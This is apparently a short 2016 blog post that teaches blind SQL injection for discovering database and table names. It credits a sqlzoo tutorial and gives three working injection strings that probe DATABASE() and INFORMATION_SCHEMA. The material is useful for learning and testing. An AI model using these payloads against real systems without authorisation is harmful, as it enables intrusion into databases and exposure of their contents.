 ```yaml
---
layout: post
title: "Find Table Names using SQL Injection"
description: ""
categories : development
sub_categories : ""
date: 2016-06-17
tags: []
comments: true
share: true
---
```


In the previous examples we cheated a little. You knew that the table
containing user names and passwords was called users and you knew that it had
two columns, name and password. In some cases you do not know the name of the
table or the column names, but you can use the same techniques to find these
out.

  

You need to find out the name of the database that you are using. The function
DATABASE() will give you that value (but you have to guess at it as before).
When you know the name of the database being used you can take guesses at the
names of the tables.

  

  

**Does the current database contain the letter j?**

' OR EXISTS(SELECT 1 FROM dual WHERE database() LIKE '%j%') AND ''='

**Is there a table called one in database test?**

' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='test'
AND TABLE_NAME='one') AND ''='

**Is there more than one table in the database(s) containing a j?**

' OR (SELECT COUNT(*) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE
'%j%')>1 AND ''='

  

참고 : http://sqlzoo.net/hack/24table.htm

